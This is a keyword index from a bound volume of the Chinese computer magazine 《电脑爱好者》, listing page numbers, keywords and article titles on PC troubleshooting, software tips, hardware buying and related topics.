- 34 端口 端口转发新方法
- 123 断电 突然断电？我不怕了
- 150 断网 断网也不怕，远程照协助
- 340 堆料 堆料你还差很远
- 259 对话框 打开任何文件便出现打开方式对话框
- 261 对话框 Office总是弹出保存对话框
- 334 多点触摸 让你的本本也能多点触摸！
- 210 多工作表 Excel多工作表快捷输入两小招
- 355 多机上网 谁说多机上网一定要靠设备
- 351 多媒体音箱 为60华诞献礼 超低价2.1多媒体音箱大搜罗
- 152 恶评 惹不起我躲，关闭好友恶评门
- 237 恶意软件 人人喊打 恶意软件还能生存？
- 369 恶意软件 恶意软件 你恶心了谁
- 353 耳机线 弹不断的琴弦 一拉就断的耳机线
- 368 耳麦 选耳麦 从细节着眼
- 369 耳麦 买耳麦看哪里 不明白让大虾告诉你
- 346 二手手机 二手手机选购指南
- 254 翻译 天生翻译官 Windows 7怎样成就语言天才
- 201 翻译词典 给WPS 2009加装翻译词典
- 171 反弹窗口 反弹窗口 建立属于自己的“反导弹系统”
- 171 防护 为QQ打造全程防护
- 264 防火墙 为何系统会提示恶意防火墙
- 260 防火墙设置 Windows无法显示防火墙设置
- 340 伪造 我们可以伪造 还能“创造”
- 249 访问 相互隔绝的网络如何同时能访问
- 257 访问 无法访问桌面
- 271 分辨率 显示分辨率为 何无法设置
- 108 分区 哥们，别让我抓狂！分区，拿什么拯救你的隐藏？
- 114 分区 神探出手，巧破分区离奇失踪案
- 273 风扇转速 休眠后风扇转速降低
- 360 风扇 风扇是侧吹好 还是下压更牛？
- 153 封锁 跨越暗沟，突破新型迅雷封锁
- 274 复制 移动硬盘复制大文件报错
- 55 复制加速 大硬盘的烦恼——复制加速工具
- 272 高分辨率 无法使用高分辨率显示器
- 331 高频噪音 蚊声嗡嗡 本本高频噪音惹人忧
- 366 高清 看两个高清才过瘾
- 365 高清LCD显示器 能看电视的高清LCD显示器
- 358 高清硬解 10分钟开启Intel GM45集成显卡的高清硬解
- 361 歌美 打造更完美的歌美X690HD
- 264 歌曲 为何有的歌曲不能正常显示歌词
- 172 个人空间 打造永不凋落的个人空间
- 54 个性操作系统 DIY个性操作系统选择界面
- 255 更改 为何不能更改系统时间
- 34 功能区映射表 功能区映射表Word 2007命令轻松找
- 335 供电不足 小成本 小制作 解决USB供电不足的小问题
- 376 供电不足 都啥年头了，移动硬盘还是供电不足？
- 159 共享 新片快递员，移动硬盘内网自动共享
- 193 共享 轻巧设置局域网 共享不犯难
- 186 谷歌 谷歌充当“第三者” 期待“鸠占鹊巢”
- 150 谷歌地图 边走边乐——谷歌地图玩乐记
- 143 谷歌浏览器 谷歌浏览器4.0来啦！
- 136 谷歌日历 晴雨早知道，天气预报进驻谷歌日历
- 142 谷歌阅读器 Send To谷歌阅读器会飞的翅膀
- 351 固件刷新 老古董新生命 小记固件刷新的若干问题
- 119 关机 点了“关机”之后，玄机来了……
- 255 关机 关机命令为何不起作用
- 259 管理功能 无法打开“计算机”的管理功能
- 262 光盘 光盘无法复制
- 56 光盘刻录 菜菜同学的光盘刻录
- 64 光驱 没有光驱的日子——系统管理员日记曝光
- 101 光驱启动 嫁入名门，光驱启动驶入VIP快速通道
- 170 广告狙击 电脑也有人骚扰？博客网广告狙击战
- 181 广告 我的世界没有广告
- 111 滚轮 不繁琐，调节声音用滚轮
- 208 函数 WPS中我的表格会武术，函数计算挡不住
- 346 航嘉机箱 第三届航嘉机箱创意设计大赛后记
- 168 合并子目录 瞬间合并子目录
- 152 黑客 我家大门常关着，黑客进不来
- 275 黑屏 休眠后为何黑屏
- 156 互联网电视 DIY自己的互联网电视
- 46 花季护航 DIY“花季护航”
- 114 花季护航 情义之外的故事，宿舍电脑也要“花季护航”
- 273 花屏 玩游戏出现花屏
- 361 华硕 大牌就是系列多：华硕篇
- 258 画图工具 系统自带画图工具不能正常运行
- 45 话费 珍惜话费 远离响一声
- 124 还原 当硬盘被还原成一个分区
- 258 还原 无法还原虚拟机
- 211 还原点 为Word创建个还原点
- 207 徽标输入 Word 2007中的公司徽标快速输入
- 261 会声会影 无法卸载会声会影
- 262 会声会影 会声会影无法运行
- 327 惠普 大牌就是系列多: 惠普篇
- 274 混合交火 为何不能混合交火
- 144 火狐 火狐, 没手机也能玩的GPS
- 306 课件制作 课件制作软件不兼容? 驯服有术
- 363 酷睿 Intel 酷睿i5/i7上市 又见ES版CPU
- 56 快捷方式 恢复Windows 7快捷方式的小箭头
- 164 快捷方式 分区变了 别再让快捷方式"独守空房"
- 255 快捷方式 桌面的快捷方式为何总是丢失
- 20 快捷键 弹指之间 快如闪电 玩转键盘上的快捷键
- 326 快捷键 自定义华硕本本的Instant Fun快捷键
- 327 快捷键 找回惠普本本失效的快捷键
- 102 快速复制 没有做不到! 快速复制"死"文字
- 162 快速启动 减轻包狱 轻装上路 大块头软件加速启动
- 255 快速启动栏 快速启动栏丢失
- 41 宽带 网络要宽带 文件要减肥
- 157 宽带 躺床上冲浪 手机连到宽带上
- 266 宽带 宽带连接为何很慢
- 270 宽带 宽带连接问题
- 189 宽屏 梅开二度 老游戏完美上宽屏
- 255 宽屏 宽屏为何不能显示桌面
- 98 扩展名 文件扩展名, 收放自如一键搞定!

### J
- 41 机箱 机箱的那些线
- 356 机型 价格决定机型已过时
- 91 激活 激活有门道 免费是王道Windows 7激活从入门到精通
- 190 极点五笔 极点五笔"兼职" 会的不只是打字
- 275 集成显卡 集成显卡故障
- 299 计算机等级考试 2009年全国计算机等级考试官方重难点真题分析(C++篇)
- 305 计算机等级考试 2009年上半年全国计算机考试官方重难点真题分析(二级C语言篇)
- 307 计算机等级考试 2009年上半年全国计算机考试官方重难点真题分析(二级VFP, VB篇)
- 310 计算机等级考试 2009年上半年全国计算机考试官方重难点真题分析(三级数据库篇)
- 322 计算机等级考试 2009年上半年全国计算机考试官方重难点真题分析(三级网络篇)
- 97 记事本 记事本也能挂马马?
- 261 记事本 记事本无法编辑BAT文件
- 182 加密 加密压缩包照查不误
- 242 加密 加密就像做游戏 你来搜我来猜
- 261 加密文件 无法打开Office加密文件
- 28 家庭网络 共享不愁 家庭网络快速建
- 78 兼容 植入SLIC打造兼容品牌机
- 275 兼容 Windows 7与G45显卡驱动不兼容
- 49 监管 被监管下的自由——又到"抄底"好时机
- 100 剪贴板 简单代码 为剪贴板添加"内力"
- 272 键盘灯 键盘灯关机不熄灭
- 271 键盘接口 华硕M4A78 PRO与PS/2接口键盘不兼容
- 28 键鼠 键鼠生病, 急救有方
- 185 键鼠 动动我试试 键鼠不动我就不动
- 274 降频 内存为何自动降频
- 298 教学课件 品三味套餐, 玩转多媒体教学课件
- 357 街机 我的街机我做主
- 137 节省流量 借手机上网, 节省流量我有招
- 161 截图 截图有功底 细节不放弃
- 185 截图 你的截图能上传吗
- 122 解压 极速! 为RAR文件解压找把"快刀"
- 261 金山词霸 使用金山词霸Explorer就关闭
- 262 金山词霸 金山词霸翻译显示乱码
- 171 金山网镖 卸不全 装不上 金山网镖有话说
- 275 金手指 显卡金手指氧化造成PCI-E X16降级使用
- 112 进程 一打一准, 我的进程叫顺溜
- 118 进程 "结伴儿"治假死, 有效率 "组团儿"管进程, 不忽悠
- 195 进程 来也绿色 去也绿色 剿灭后台进程有新招
- 119 镜像 安全第一, 请进原版Windows 7安装镜像
- 266 局域网 局域网为何不能访问

### K
- 261 卡巴斯基 卡巴斯基为何不能完成更新
- 161 卡卡 电脑异常 卡卡教你六步治百病
- 365 卡片机 卡片机也玩背景虚化
- 343 开服优化 重回艾泽拉斯 魔兽开服优化购机攻略
- 44 开机 刨根问个底 开机为什么这么慢
- 255 开机 系统开机时找不到"nvmctray"模块
- 257 开机 开机时总是出现一排"扩挪扩挪"
- 273 开机 开机为何需要多次
- 257 开机提示 开机总提示插入软盘
- 272 开机提示 开机提示New CPU Installed
- 272 开机提示 开机显卡提示
- 273 开机音效 连接液晶电视为何开机音效缩短
- 259 开始菜单 开始菜单不显示最近使用的程序
- 136 开心农场 找回QQ开心农场中消失的好友
- 145 开心农场 贾君鹏, 开心农场里的菜熟了
- 29 看大片 躺在床上看大片, 和不爽说byebye
- 264 刻录 刻录的CD音量不一
- 179 刻录视频 傻瓜刻视频, 简单做恢复
- 187 刻盘 音乐为何刻不进光盘

### L
- 229 垃圾 "旺仔"的垃圾苦恼
- 273 蓝光格式 播放蓝光格式电影CPU占用率过高
- 109 蓝屏 "月光宝盒"——带我回到蓝屏那一刻
- 275 蓝屏 内存造成的蓝屏问题
- 328 蓝牙 智能手机+个人电脑——疯狂的蓝牙
- 123 烂盘 拯救烂盘不找专家, 你身边就有
- 182 老板键 我是一个会用老板键的好员工
- 365 老驱动 老驱动的第二春
- 331 连供系统 省钱的办法多——多功能一体机迎娶连供系统
- 371 联通iPhone 放弃联通iPhone! "摸"出新精彩
- 352 联网兼容 本本联网兼容问题不可忽略
- 153 联系人 好友、联系人呼叫转移
- 262 联众世界 如何卸载联众世界扩展组件
- 22 亮点 亮点不可怕, 判断问题才是出路
- 146 聊天 "画"言巧语聊聊天
- 269 聊天软件 聊天软件出现0x00000005错误
- 232 临时文件 Angel or Evil, 临时文件合体之身的辨证
- 26 铃声 热门铃声立等可取
- 185 浏览器 抛开浏览器 照样玩校内(人人)
- 268 浏览器 浏览器提示加载项禁用
- 198 流程图 会搭积木吗? 去做个流程图吧
- 315 流量 好网编是如何练成的 流量就是RMB!
- 263 龙卷风 龙卷风无法收听部分电台
- 153 漏洞 一箭三雕, 告诉你迅雷不为人知的"漏洞"
- 250 漏洞 淘宝惊现漏洞 账号可轻易获取
- 117 路径 穿上神速靴, 不怕OUT, 路径"秋技7宗最"
- 135 路由器 巧借路由器, 掀出内网里的P2P小偷
- 296 旅游 网店和旅游手拉手, 滚滚客源不用愁
- 256 绿色版QQ 绿色版QQ如何在Windows 7中运行
- 329 绿色耳机 面对不容忽视的危害 选购绿色耳机吧
- 110 乱码 纯净娱乐 Ubuntu中文程序无乱码
- 318 论坛编辑 最另类的网编: 论坛编辑

### M
- 271 马赛克 数字电视为何马赛克
- 350 漫步者 低调而沉稳 厚积薄发的漫步者
- 259 媒体播放器 无法打开媒体播放器
- 101 美化 排好队形不落伍, 古老地盘全美化
- 184 美化IE 菜鸟也能当"高手" MM美化IE显身手
- 140 美图 三维世界, 看尽天下美图
- 374 迷你音箱 解开迷你音箱误区之谜
- 151 密码 嘘, 把你的密码锁进保险箱
- 47 免费 彻底免费 不杀白不杀
- 136 免费短信平台 既快又省, 谁是最好的免费短信平台?
- 303 面试 找好"金饭碗"的最后一步: 面试
- 211 模板 邀请模板巧梳妆 职场专业懒虫秘技偷偷报
- 260 魔法分区 魔法分区显示117错误
- 165 魔法设置 魔法设置逞英豪——超级兔子9.0 Beta2版
- 261 魔兽 魔兽总是显示错误
- 264 魔兽 魔兽运行时总是黑屏
- 263 魔兽争霸 玩魔兽争霸没声音
- 331 墨盒 黑盒还是彩盒
- 334 墨盒监控 斩杀卧底 攻破EPSON打印机墨盒监控防线
- 236 木马 网上"木马"跑 看"弼马温"如何管马

### N
| 合订码 | 关键词 | 文章标题 |
|--------|--------|----------|
| 118 | 内存 | EASY到底, 内存速当硬盘使! |
| 271 | 内存 | 内存故障造成软件无法运行 |
| 274 | 内存故障 | Intel X58主板使用单条内存故障 |
| 139 | 纳米机器 | 闲事管到微软头上, 纳米机器偷入SkyDrive |
| 348 | 诺基亚 | 细说诺基亚智能手机功能按键 |

### P
| 合订码 | 关键词 | 文章标题 |
|--------|--------|----------|
| 257 | 盘符 | 无法打开盘符 |
| 256 | 盘符错乱 | 安装系统后盘符紊乱 |
| 366 | 批量安装 | 批量安装好帮手 |
| 204 | 批量打印 | 另辟蹊径, 快速批量打印成绩单 |
| 120 | 拼音输入 | 敲打的享受, 小三儿拼音输入HAPPY总动员! |
| 311 | 平面设计师 | 平面设计师生存手册: 寻找最佳的起点 |
| 314 | 平面设计师 | 平面设计师生存手册: 在报刊社寻找一席之地 |
| 317 | 平面设计师 | 平面设计师生存手册: 企业里的平面设计 |
| 323 | 平面设计师 | 平面设计师生存手册: 机会风从网上来 |
| 325 | 平面设计师 | 平面设计师生存手册: 方寸之间天地宽 |
| 333 | 苹果 | 反寨联盟——雷死人不偿命的12英寸“苹果MacBook Air”! |
| 242 | 屏蔽 | 屏蔽QQ的信息 |
| 366 | 破核党 | 给“破核党”降降温 |
| 358 | 破音 | 解决Acer 6930G Windows XP下破音的烦恼 |

### Q
| 合订码 | 关键词 | 文章标题 |
|--------|--------|----------|
| 105 | 启动菜单 | 表里如一, 启动菜单语言随你定 |
| 236 | 启动方式 | 黑白画映, 闪盘启动方式不再迷惑 |
| 113 | 启动盘 | 太简单了! 上网本必备启动盘 |
| 122 | 启动文件 | 挡在自家大门外, 启动文件丢失你该咋办? |
| 270 | 起始页 | Chrome起始页无法修改 |
| 347 | 汽车人 | 汽车人变形出发 打造变形金刚迷准装备 |
| 184 | 千千静听 | 千千静听弹广告 百般武器屏蔽它 |
| 262 | 千千静听 | 千千静听被报毒 |
| 262 | 切换输入法 | Ctrl+Shift为何不能切换输入法 |
| 356 | 轻薄 | 轻薄风潮来袭 谁将独领风骚 |
| 371 | 轻薄本 | 上网本与轻薄本?按“需”选择才是根本 |
| 227 | 清除 | 自动清除不联系的好友 |
| 176 | 清理垃圾 | 清理垃圾 3分钟赢得红颜一笑 |
| 31 | 驱动 | 新系统装驱动不用费心思 |
| 118 | 驱动 | SREng不折腾, 低调治驱动不兼容 |
| 256 | 驱动 | 安装驱动提示“系统找不到指定文件” |
| 349 | 驱动程序 | 驱动程序 装还是不装 |
| 49 | 驱动工具 | 移花另接木, 也要骗过雨林驱动工具 |
| 110 | 驱动工具 | 移花接木:“贴牌”巧骗雨林驱动工具 |
| 228 | 驱动管理 | 驱动那点事交给谁来办?五款驱动管理软件横评 |
| 251 | 驱动精灵 | 独家揭秘驱动精灵在线版技术内幕 |
| 265 | 驱动精灵 | 无法安装驱动精灵 |
| 156 | 驱动升级 | 浏览器里的驱动升级行动 |

### R
| 合订码 | 关键词 | 文章标题 |
|--------|--------|----------|
| 27 | 热键 | 热键, 提高效率的通道 |
| 35 | 任务管理器 | 了解它, 步入高手的殿堂: 任务管理器 |
| 24 | 任务计划 | 玩转任务计划, 效率成倍提升 |
| 45 | 任务栏 | Windows 7下打造XP样式任务栏 |
| 96 | 任务栏 | 任务栏地址不见, SP3太面? |
| 116 | 任务栏 | 窗口大一点, 世界更清晰 放大Vista任务栏的预览窗口 |
| 259 | 任务栏 | 任务栏总是自动隐藏 |
| 260 | 任务栏 | 任务栏不显示程序图标 |
| 61 | 肉鸡 | 坚决不做“肉鸡”大虾电脑不被入侵的秘密 |
| 118 | 软件搬家 | 软件搬家, XP到7总动员 |
| 147 | 软件分身 | 软件分身有术, 一台安装多台使用 |
| 248 | 软件管理工具 | 寻找最好用的软件“管家婆”软件管理工具横评 |
| 163 | 软件换肤 | 夏季着靓装 我的软件换新衣 |
| 169 | 软件启动 | 有图才有真相 软件启动图形化 |
| 56 | 软件签名 | 软件签名, 其实可以更简单 |
| 178 | 瑞星 | 要当警察 先穿防弹衣 瑞星防御攻击测试 |
| 193 | 瑞星 | 别重装! 瑞星还能拯救你的系统 |
| 197 | 瑞星 | “白”得有道理 瞧瞧瑞星的三种“白” |
| 260 | 瑞星 | 如何找回被瑞星删除的文件 |
| 262 | 瑞星 | 瑞星运行出错 |
| 171 | 瑞星2010 | 初探瑞星2010——界面与应用程序加固 |
| 180 | 瑞星2010 | 瑞星2010巧做媒 系统安全大增强 |
| 193 | 瑞星2010 | 新菜要会吃 瑞星2010开锅四步 |

### S
| 合订码 | 关键词 | 文章标题 |
|--------|--------|----------|
| 39 | 赛博QQ | 同一篇文章, 同一个问题: 解决赛博QQ的烦人提示 |
| 39 | 赛博QQ | 解决赛博QQ的烦人提示 |
| 335 | 三诺 | 三诺摩机大赛 期待新一轮的王者 |
| 345 | 三诺 | 三诺摩机大赛 也许你就是下一站的冠军 |
| 355 | 散热底座 | 暴力散热底座变温柔 |
| 369 | 散热器 | 你敢用吗?用502胶水导热的散热器! |
| 178 | 扫描 | 小心点别以为扫描完了就完了 |
| 201 | 扫描仪 | 一体机扫描仪常见故障解决 |
| 343 | 色差输出 | 当MP4只有色差输出时如何将画面映在老旧的电视上 |
| 161 | 杀毒 | 双剑合璧, 手动杀毒更彻底 |
| 253 | 杀毒 | 中毒了! 谁能解决你燃眉之急 |
| 156 | 杀毒软件 | 你的杀毒软件被暗杀了吗? |
| 197 | 杀软美容 | 洗心革面 给杀软美美容 |
| 174 | 沙盘 | 用别人的沙盘 玩自己的木马 |
| 333 | 山寨 | 鱼龙混杂山寨与正品共存 |
| 348 | 山寨光驱 | 套个外壳就是外置光驱?警惕滥竽充数的山寨光驱 |
| 327 | 山寨手机 | 山寨手机是重灾区 |
| 257 | 删除 | Delete文件为何很卡 |
| 259 | 删除文件 | 无法删除回收站文件 |
| 340 | 闪光灯 | 闪光灯不好用 一张白纸都搞定 |
| 42 | 闪盘 | 停用闪盘本来就很简单 |
| 54 | 闪盘 | 每个闪盘都有一把锁 |
| 97 | 闪盘 | 我的闪盘随处“闪” |
| 103 | 闪盘 | 不让闪盘迷人眼, 借你火眼快速找文件 |
| 111 | 闪盘 | 闪盘停用、启用, 一键搞定 |
| 264 | 闪盘 | 闪盘数据复制到硬盘提示权限问题 |
| 304 | 上传 | 巧建学生上传作业的快捷通道 |
| 268 | 上网 | 总是无法上网 |
| 125 | 上网本 | 天要下雨, 娘要嫁人……小有所依, 为上网本选个“好媳妇” |
| 329 | 上网本 | 上网本为什么只有1GB |
| 30 | 上网浏览 | 为什么他上网浏览那么快? |
| 129 | 上线 | 好友上线请自报家门 |
| 258 | 设备管理器 | 无法打开设备管理器 |
| 257 | 设置 | 为何不能设置BIOS参数 |
| 268 | 设置 | 无法设置网络连接 |
| 43 | 摄像头 | 超清晰、不怕黑: 高档摄像头的秘密 |
| 166 | 深层防护 | 系统加固之瑞星深层防护 |
| 183 | 深度分析 | 深度分析你的系统 |
| 268 | 升级 | 升级到IE8后世界之窗变慢 |
| 275 | 升级 | 升级独立显卡硬盘发出响声 |
| 172 | 升级天使 | 超级兔子之升级天使 电脑系统的升级管家 |
| 116 | 升级系统 | 升级系统没有安装盘?抓硬盘来做苦力 |
| 257 | 升级系统 | 升级系统后无法访问盘 |
| 339 | 生化危机 | 玩《生化危机5》你需要啥本 |
| 257 | 声卡 | 声卡安装后为何还是禁止状态 |
| 260 | 声卡驱动 | 无法安装Realtek声卡驱动 |
| 344 | 失真 | 《被遗忘的时光》不能被遗忘的失真之音 |
| 126 | 时光机器 | 谷歌“时光机器”穿越历史时空 |
| 261 | 识别优盘 | VMWare为何不识别优盘了 |
| 23 | 实时文件系统 | 实时文件系统的秘密 |
| 203 | 示意图 | 清晰明了, 示意图轻松做 |
| 230 | 视频接口 | 电容屏电阻屏 手机触屏讲究多 |
| 24 | 视频压缩 | 视频压缩, 一边看一边转 |
| 116 | 收藏夹 | 收藏夹的征兵计划 |
| 163 | 收藏夹 | 别把软件“收藏夹”当鸡肋 |
| 155 | 手机 | 存取有道, 手机和网络的亲密接触 |
| 270 | 手机 | 无法查询手机话费 |
| 375 | 手机 | CUDA来帮忙, 手机也能拍大片 |
| 52 | 手机上网 | 手机上网, 你也需要功能性“饮料” |
| 346 | 手机照相 | 手机照相功能的另类妙用 |
| 241 | 输入法 | 不同程序使用不同输入法 |
| 257 | 输入法 | 输入法状态栏丢失 |
| 263 | 输入法 | 输入法在网页界面总是不能切换 |
| 354 | 鼠标垫 | 你了解鼠标垫的指标么 |
| 34 | 鼠标键 | 鼠标生大病, 鼠标键救急 |
| 32 | 鼠标手 | 不要“鼠标手”, 从“新”做起 |
| 26 | 数据 | 虽然你轻轻地来, 但是带不走1KB数据 |
| 295 | 数据恢复 | 速成数据恢复工程师: 数据恢复基础 |
| 300 | 数据恢复 | 速成数据恢复工程师: 找回Ghost的数据 |
| 304 | 数据恢复 | 速成数据恢复工程师: 找回不同分区中的数据 |
| 313 | 数据恢复 | 速成数据恢复工程师: 找回分区被格式化的数据 |
| 319 | 数据恢复 | 速成数据恢复工程师: 从分区表中找回数据 |
| 375 | 数据接口 | 数据接口渐入第三代, 想说爱你并不容易 |
| 261 | 数据库损坏 | 安装Adobe CS3提示安装程序数据库损坏 |

## KEYWORDS SEARCH 关键词检索

### 《电脑爱好者》·合订本·正文分册

- 187 数据线 没有数据线 照样通讯
- 321 数码备战 英语四、六级冲刺数码备战全攻略
- 371 数码潮人 看一看数码潮人的家——时间篇
- 23 数码相框 打造22英寸数码相框
- 30 数码照片 数码照片也能自动处理
- 215 数字化 绘图测量数字化，我有“德威”显身手
- 272 刷新BIOS 刷新BIOS后无法进入操作系统
- 271 双核 Intel 奔腾双核 E5200频率降低
- 26 水印 不同的页面，不同的水印
- 38 水印 《不同的页面，不同的水印》的延伸
- 321 思科认证 思科认证大揭秘
- 261 搜狗拼音 无法关闭搜狗拼音的自动更新
- 165 搜狗输入法 搜狗输入法 教你认识生僻字
- 38 搜索 找文件不一定非要用搜索
- 257 搜索功能 如何找回系统搜索功能
- 270 搜索框 网页搜索框不能输入
- 140 搜索引擎 像人一样思索的搜索引擎
- 229 搜索引擎 搜索引擎也认人？
- 179 速填助手 速填助手，让填写在瞬间完成
- 256 碎片 为何无法整理碎片
- 113 碎片整理 磁盘碎片整理之英雄擂台
- 259 碎片整理 C盘无法完成碎片整理检测
- 115 缩略图 窥一斑而见全豹 PSD缩略图开“天眼”
- 69 网络作弊 史上最强网络作弊王新学期逃课通关必杀技
- 127 网盘 谁是最好的网络仓库——最新网盘应用实例及评测
- 352 网上旗舰店 带你去逛网上旗舰店
- 27 网文表格 以退为进，不连续网文表格快速删
- 158 网页 一劳永逸，竖排网页显古韵
- 244 网页浏览器 11路豪杰争霸 网页浏览器你用谁
- 267 网页媒体 播放网页媒体没声音
- 185 网页木马 不换浏览器 网页木马也能防
- 18 网页视频 斗牛：傲游实现网页视频轻松看的两种方法
- 266 网银 农行网银无法支付
- 293 网游任务策划师 设计别人的人生：网游任务策划师
- 142 网站Logo 漂亮的网站Logo随手“偷”
- 31 网址 网址缩短，要的就是批量
- 267 网址 网址自动重定向
- 267 网址 打开网址变成下载文件
- 268 旺旺 为何总是打开网页版旺旺
- 302 威客 威客，设计达人就是我
- 146 微博客 开复，你也推推我啊——缘在微博客
- 363 微星 大牌就是系列多：微星篇
- 215 文本框 巧用文本框，《简报》制作也专业
- 30 文档编辑 打造最顺手的文档编辑环境
- 128 文档部件库 文档部件库，邮件快手的秘密基地
- 49 文档记录 最近的文档记录：我的地盘我做主
- 32 文档修复 修复损坏Word文档还有两招
- 36 文档修改 扔掉稿纸 文档修改更便利
- 260 文档找回 如何找回文件名变绿的文档
- 174 文件安全 文件安全 养只兔子就行了
- 259 文件保护 系统总是提示“Windows文件保护”提示
- 165 文件分享 雁过留声 人过留名 文件分享加烙印
- 201 文件工具 WPS 2009强力文件工具一二三四
- 35 文件共享 新时代文件共享三两式
- 257 文件夹 文件夹被自动设置成隐藏属性
- 255 文件夹设置 为何系统不能记住文件夹设置
- 260 文件夹选项 文件夹选项显示为空白
- 53 文件减肥 文件要减肥，其实没那么复杂
- 40 文件移动 文件移动、复制又一法
- 173 文件移动 文件移动、复制更简单
- 28 文件中转站 用QQ文件中转站，免费为网盘扩容
- 255 我的电脑 打开“我的电脑”变成选择打开程序
- 259 无法停止 经常出现无法停止通用卷提示
- 190 无缝切换 笔记本长“脑子” 家里、单位无缝切换
- 139 无线 WeFi圈出你的无线王国
- 344 无线 无线技术 甩掉耳机的“尾巴”
- 176 无线广播 能宰牛就能杀鸡 用电脑听“无线广播”
- 358 无线键鼠 关于无线键鼠的点点滴滴
- 327 无线路由器 穿上马甲变成超薄无线路由器
- 359 无线路由器 3G无线路由VS传统无线路由
- 266 无线上网 无线上网不正常
- 275 无线上网 BIOS设置不当造成无法无线上网
- 272 无线网卡 无线网卡找不到信号
- 330 无线网卡 升级无线网卡 要稳定还是要速度
- 249 无线信号 探究无线信号传输的“强弩之末”
- 359 台式机 2010年 台式机大爆发？
- 138 淘宝 淘宝购物，轻松找到我的宝贝
- 147 淘宝 买卖陷阱，淘宝别被“淘”
- 269 淘宝旺旺 淘宝旺旺收不到部分消息
- 187 提速 管理好内存 兔子让系统再提速
- 32 提醒 随时提醒，才是真的忘不了
- 258 天气预报 桌面天气预报为何不能使用
- 256 添加程序 添加或删除程序无法使用
- 272 调节 显示器无法调节清晰度和饱和度
- 362 调节亮度 Windows XP下Y550调节亮度的困扰
- 341 贴膜 巧贴膜 保护本本自己动手
- 132 帖子脱水 要的就是干货，论坛帖子脱水有术
- 367 听力杀手 傻博士眼中的“听力杀手”
- 124 停电 停电带来的小灾难……
- 355 同质化 同质化还是创新 是一个难以抉择的问题——专访技嘉科技
- 206 统计 统计必学技：按不同年龄段统计员工数量
- 210 统计 不用函数也能玩统计：快速录入、统计学生成绩
- 246 偷菜机 打造自动偷菜机
- 73 图标 超越Excel 30张图揭秘图表魅力
- 309 图标 平面设计生存手册：小图标里的大意义
- 187 图层 不用PS 直接查看PSD图片各图层
- 17 图片 玩转图片，Word活动总结精彩呈现
- 234 图片处理软件 你OUT了? 流行图片处理软件比比看五款图片自动处理软件横评
- 191 图像压缩 以大小为准绳 看得见的图像压缩
- 173 托盘 领导器重你，让托盘时间担负起更多的责任
- 274 脱机 无线一体机连接为何显示为脱机
- 102 外观 请穿好你的外衣 外观难题总攻略
- 245 完全系统备份 如果你需要完全系统备份
- 265 万能五笔 万能五笔输入繁体字出现乱码
- 312 网编 好网编是如何练成的 网络专题的那点事
- 294 网店 一月冲钻不是梦，农家女士特产网店的秘密
- 336 网店拍照 丰衣足食 网店拍照自己来
- 298 网店设计师 网店设计师——用电脑做装修的人
- 361 网购 超囧网购买家 咱不能再这样了
- 270 网络 部分网络访问特别慢
- 45 网络罢工 网络罢工谁之过？
- 306 网络编辑 门槛最低的IT白领：网络编辑
- 308 网络编辑 门槛最低的IT白领：做“网编”必耳听六路
- 133 网络地盘 畅所欲言：谁是最好的网络地盘
- 178 网络电视 网络电视录像机 我的精彩不错过
- 42 网络防护墙 菜鸟“撞”上网络防护墙
- 294 网络工程师 站在网络技术行业的高岗上
- 126 网络记事本 要想忘不了，就用网络记事本
- 316 网络家教 距离不是问题，网络家教很便利
- 67 网络金刚 我为“变形”狂 网络金刚之风云再起
- 317 网络模特 网络模特 时尚网店的一把火
- 148 网络限速 喂，别超速——网络限速我有招
- 312 网络钟点工 网络钟点工，白领兼职新方式
- 182 喜羊羊 喜羊羊做辅导 孩子吵着要学习
- 259 系统分区 安装时遇到“安装程序无法创建新的系统分区”
- 257 系统还原 关闭系统还原出错
- 168 系统加固 身体强壮少生病 系统加固少中毒
- 74 系统加速 尊严之战Windows 7时代的XP逆袭——系统加速体验新纪元
- 252 系统目录 微软工程师秀逗了？探寻7系统目录海星之谜
- 256 系统时间 系统时间总是慢8分钟
- 238 系统文件夹 有怪兽？探秘系统文件夹下的WinSxS
- 198 系统重装 远离系统重装烦恼 兔子备份工具显身手
- 275 系统自检 系统自检到CPU停止
- 266 下载 下载文件快但玩游戏慢
- 267 下载 下载文件总是下载不完全
- 270 显卡 实现混合交火对显卡有要求
- 273 显卡 更换显卡玩游戏卡机器
- 363 显卡 点燃Intel GMA显卡 游戏也能玩到爆
- 256 显示 系统无法显示隐藏文件
- 274 显示 输出到电视为何显示成黑白
- 345 显示器 别让显示器变成镜子
- 32 显示桌面 显示桌面难吗？
- 33 相框 用好系统功能 打造简易相框
- 182 小红伞 自己动手丰衣足食 自制小红伞V9免安装扫毒器
- 260 小红伞 小红伞注册号怎么过期了
- 261 小红伞 小红伞与OP防火墙冲突
- 263 小红伞 小红伞不能更新
- 264 小红伞 小红伞为何不能升级
- 56 小数点 小数点错误惹麻烦
- 246 校内网 校内网的老大难问题
- 266 校内网 注册校内网收不到邮件
- 135 校园网 谁说校园网不入电信? 突破校园网
- 205 协作办公 Office联姻Google文档，协作办公更轻松
- 29 写博客 写博客再也不会“一停没”
- 97 卸载 徒手，让卸载进行到底
- 260 卸载 无法卸载Live Messenger
- 332 芯片 谣言终结者之芯片篇
- 268 新标签 打开新标签速度巨慢
- 337 性能 性能至高论 你还能走多久
- 258 休眠 无法使用休眠功能
- 372 修复CUE 修复CUE 还我无损CD
- 173 修复视频 别怪它无能，修复Realplayer下载视频
- 204 修复文档 多头并举，巧妙修复损坏的Office文档
- 168 修复主页 一个萝卜一个坑 手把手教你修复主页
- 262 虚拟PC 无法设置虚拟PC启动还原磁盘功能
- 262 虚拟光驱 虚拟光驱无法设置新驱动器盘符
- 124 虚拟机 不按常理出牌，三招轻松制作虚拟机
- 255 虚拟内存 系统总是提示虚拟内存太小
- 265 虚拟硬盘 Ramdisk虚拟硬盘中的文件会自动消失
- 138 选项卡 解密IE8中新建选项卡的秘密
- 263 炫舞 安装炫舞出现7 Zip CRC Error
- 350 迅驰 最后一代迅驰最长命的选择?
- 132 迅雷 迅雷要破产，会员功能免费用
- 138 迅雷 打破壁垒，在迅雷中添加自己的应用
- 141 迅雷 你该知道的迅雷的4件事
- 142 迅雷 喝茶去，下载就让迅雷去代劳吧
- 148 迅雷 迅雷为傲游下载接力
- 268 迅雷 无法备份迅雷的下载列表
- 269 迅雷 迅雷总是提示UPnP阻滞
- 263 压缩 无法压缩2GB文件
- 240 验证码 是人还是机器？一个验证码的判定
- 227 遥控 千里电脑一线牵 你被遥控了吗
- 360 遥控器 电脑也配遥控器
- 38 液晶显示器 液晶显示器到底会不会“流汤儿”
- 274 液晶显示器 液晶显示器为何出现绿色斑点
- 34 一键Ghost 一键Ghost备份文件的删除方法
- 116 一键还原 1TB以上硬盘，如何装一键还原?
